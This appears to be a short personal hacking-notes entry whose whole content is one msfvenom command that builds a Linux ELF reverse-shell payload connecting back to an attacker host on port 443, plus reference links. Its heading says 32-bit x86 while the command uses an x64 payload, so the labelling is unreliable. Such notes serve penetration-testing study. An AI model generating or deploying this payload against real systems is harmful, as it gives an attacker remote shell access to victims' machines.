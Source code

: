 # MSFVENOM Linux Binary (.elf) 32 Bit (x86) Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

# References
- [20221003150765](/zet/20221003150765/) MSFVENOM Linux Binary (.elf) 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted

